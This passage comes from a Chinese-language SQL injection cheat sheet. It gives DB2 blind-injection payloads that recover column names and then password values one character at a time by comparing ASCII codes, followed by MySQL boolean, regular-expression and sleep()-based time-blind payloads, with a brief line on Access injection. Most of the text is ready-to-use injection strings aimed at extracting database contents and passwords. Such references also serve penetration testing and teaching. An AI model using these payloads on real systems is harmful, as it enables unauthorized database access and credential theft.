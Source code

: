   and 1<(SELECT LENGTH(COLNAME) FROM SYSCAT.columns where TABNAME='TABLE' and colno=0)

- 猜第一个列名第一个字符的ASCII码

  and 1<(SELECT ASCII(SUBSTR(COLNAME,1,1)) FROM SYSCAT.columns where TABNAME='TABLE' and colno=0)

- 依ID排降序，猜第一个PASSWD的长度

  and 0<(SELECT LENGTH(PASSWD) FROM TABLE ORDER BY ID DESC FETCH FIRST 1 ROWS ONLY)

- 依ID排降序，猜第一个PASSWD第一个字符的ASCII码

  and 0<(SELECT ASCII(SUBSTR(PASSWD,1,1)) FROM TABLE ORDER BY ID DESC FETCH FIRST 1 ROWS ONLY)

- 猜第二个PASSWD第一个字符的ASCII码

  and 0<(SELECT ASCII(SUBSTR(PASSWD,1,1)) FROM TABLE where PASSWD not in('grou1') FETCH FIRST 1 ROWS ONLY)

### Access注入基础

需要盲猜表名列名

---

### MySQL注入进阶技巧

##### 一般盲注：

- 使用ascii：

  ```mysql
  and ascii(substr((select table_name from information_schema.tables where table_schema="库名" limit i,1),j,1))>猜的数--+
  其中 i 为第 i 个表；j 为 第 i 个表的第 j 个字母
  *substr(a,b,c)从b位置开始，截取字符串a的c长度。
  *mid(a,b,c)从b位置开始，截取a字符串的c位。
  
  left(database(),1)>'s'
  *left(a,b) a字符串的左起b位
  
  ord()同ascii()
  ```

- 使用正则表达式：

  ```mysql
  and 1=(select 1 from information_schema.tables where table_schema="库名" and table_name REGEXP '^[a-z]' limit 0,1)
  ```

##### 时间盲注：

- sleep()

  ```mysql
  if(ascii(substr(database(),1,1))>115,0,sleep(5))%23
  if判断语句，条件为假，执行sleep
  推荐使用sleep()
  ```
